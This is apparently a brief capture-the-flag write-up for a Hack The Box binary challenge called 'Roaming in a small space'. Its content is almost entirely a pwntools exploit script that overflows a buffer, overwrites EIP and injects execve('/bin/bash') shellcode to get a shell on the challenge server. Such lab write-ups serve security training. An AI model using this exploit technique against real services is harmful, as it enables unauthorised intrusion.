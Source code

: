 > Roaming in a small space

> Author: **[r4j][author-profile]**

## The payload

```python
import os
os.environ['PWNLIB_NOTERM'] = 'True'
from pwn import *

HOST = "docker.hackthebox.eu"
PORT = 30117


buf = "A"*14+ p32(0x0804b827)+p32(0x08049217) +"A"*27
buf += p32(0x0804b816) #eip
buf += asm(shellcraft.execve('/bin/bash'))

p = remote(HOST, PORT)
#p = process("./space")
p.recvuntil("> ")
p.sendline(buf)
```

[author-profile]: https://app.hackthebox.eu/users/13243
